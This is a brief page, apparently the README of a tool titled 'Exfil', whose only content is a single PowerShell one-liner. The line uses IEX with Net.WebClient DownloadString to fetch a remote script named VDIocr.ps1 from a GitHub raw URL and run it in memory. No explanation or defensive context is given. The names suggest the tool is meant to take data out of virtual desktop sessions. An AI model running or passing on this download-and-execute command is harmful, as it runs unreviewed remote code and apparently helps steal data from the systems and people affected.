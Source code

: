 # Exfil

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/pand0rausa/Exfil/main/VDIocr.ps1')
